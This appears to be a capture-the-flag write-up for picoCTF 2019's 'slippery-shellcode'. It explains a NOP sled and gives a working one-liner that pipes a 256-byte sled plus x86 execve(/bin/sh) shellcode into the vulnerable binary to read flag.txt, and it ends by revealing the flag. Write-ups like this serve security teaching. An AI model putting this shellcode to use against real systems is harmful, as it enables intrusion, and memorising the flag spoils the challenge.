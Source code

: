 ## slippery-shellcode  

### Problem:  
> This [program](https://2019shell1.picoctf.com/static/b32bc88726ab35fa8151726bb172d772/vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_1_69e5bb04445e336005697361e4c2deb0 on the shell server. [Source](https://2019shell1.picoctf.com/static/b32bc88726ab35fa8151726bb172d772/vuln.c).

Similar to handy-shellcode, except `buf` isn't executed, but offset by a random number between 1 and 256 then executed from the offset location. To account for this, we will prepend a NOP sled (256 * `\x90`) to our `execve(/bin/sh)` shellcode (search on shell-storm.org) and send that in as `buf`. A NOP sled is a sequence of no-operations, each does nothing and moves on to the next instruction. Thus, regardless of what the random offset is and where in `buf` we would execute from, buf's NOP sled would always lead us to the `execve(/bin/sh)` portion.  

Note: `cat` after `echo...` to keep the input stream open.

### Solution:  
```
( echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\n"; cat ) | ./vuln
cat flag.txt
```
** Flag: picoCTF{sl1pp3ry_sh311c0d3_2dd645d1} **
